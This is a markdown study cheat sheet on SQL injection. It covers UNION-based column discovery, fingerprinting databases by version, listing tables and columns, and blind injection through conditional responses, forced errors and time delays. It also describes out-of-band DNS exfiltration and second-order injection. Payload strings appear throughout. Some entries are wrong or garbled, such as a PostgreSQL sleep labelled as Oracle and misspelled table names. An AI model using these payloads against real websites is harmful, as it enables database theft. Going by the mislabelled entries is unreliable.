 # SQL Injection

![sqli](https://github.com/DK9510/Img/blob/main/sql-inection.png)

## what is  SQL injection
in this vulnearabilty the malicious sql statement will be inject by the attacker to compromise the database or server

## where to find
* see the parameter were the client send  the request in form GET POST and we use `` ' , \ ) " "'`` etc to manipulate user input and break query.   
* some site use filters to validate client input so we use URL encoded payloads 

## union Query 
for successfully execution union query  we must meet the no. of columns returning 

## find number of columns vulnerable to SQL I
1. use order by 1 (integer ) and increment until error goes on
this will give us the number of columns that are returning
2. or another  method is UNION Select NULL,NULL --  "if number of null DOESN'T match then DB gives error"
#### note for Oracle Database 
always use **From Dual --** in select query because it is the builtin table in oracle.

## find the column which gives us the string value in return 
```bash
Query= 'UNION SELECT NULL,"A"+--+'
```
OR
```bash
query = ' UNION SELECT "A",NULL --+'
```
(if returns our string value in any columns that is data retrival point we can say)

## find DataBase Type and Version
|Database | Query |
|---|---|
|Microsoft | 'Select @@version'|
|MySQL |'Select @@version'|
|Oracle | 'Select \* from v\$Version'|
|PostgreSQL| 'Select version()'|

## listing content of DB 
#### Listing tables 
```bash
Query= 'information_schema.tables' 
```
(list out the table names in the database)
#### listing columns
```bash
Query= ' Select * from information_schema.columns Where table_name="table name we know" '
```
***NOTE:  always use + instead of (space)***

### For Oracle DataBase

**For tables**
```bash
Query= 'Select * from all_tables '
```
**For columns** 
```bash
Query= 'Select * from all_tables_columns where table_name="table name"'
```
## String Concation 
***used for concatenation multiple string in the single string***

|***Database* **| ***Method for concate***|
|---|---|
|**Oracle **|** 'str1'  \| \|'str2'** |
|**Microsoft** |** 'str1'+str2**|
|**PostgreSQL**|**'stind r1' \|\|'str2'**|
|**MySql** | **'str1'(space)'str2'  OR CONCATE('str1','str2')**|

## Sub-string or retrieve part of the string
|DataBase| Query|
|---|---|
|Oracle |SUBSTR('the payload to return string or string', index_of_string, number_of_charector_to retrive)|
|Microsoft|SUBSTRING('STRING ', Index, number of character)|
|PostgreSQL| SUBSTRING('string', index, character)|
|MySQL| SUBSTRING('string', index, character)|

## Comments in SQL
|DataBase|Comment|
|---|---|
|Oracle|'--'|
|Microsoft|'--'and /\*\*/|
|PostgreSql|'--' and /\*\*/ |
|MySQL| \# , --(white space), /\*\*/ |

# Blind sql injection vulnerability

### how to exploit 
1. change logic of the Query to trigger detectable difference
2. trigger time delay
3. trigger out of band network interaction

### using conditional Response
```bash
Query = ' xyz AND "1"="1' 
```
**if get response than xyz if true other wise it DIDN'T get response from server**    or
```bash
Query = ' xyz AND "1"="2'
```

### inducing conditional Response by Triggering SQL Error
```bash
Query = 'xyz AND ( Select CASE WHEN (1=2) Then 1/0 Else "a" END)="a'
```
**if condition is true server gives us the error if false 
coudnt get error**

##### for Oracle Data base 
```bash
Query= 'xyz \|\| (select case when(1=1) Then To_char(1/0) Else '' END From DUAL \|\| '
```

### exploit BY Generating Delay 
```bash
query = '; if (condition true) waitfor Delay '0:0:10:'+--+'
```
gives 10 second delay in response if condition true else DIDN'T delay in response

##### for oracle DB
```bash
Query = '\|\| pg_sleep(delay in seconds)+--+'
```

### exploit using OUt of band 
in this append data in the form of subdomain in our domain and make a DNS lookup
that will reflect in our network traffic and that way we can extract data.
we also use burp collaberator

# 2nd Order SQL Injection
#### it happens when our input stored in the application and then later handling different HTTP request the app retrieve stored data and our sql query is executed and we successfully u injected our payload in the server and also executed our SQL Query.
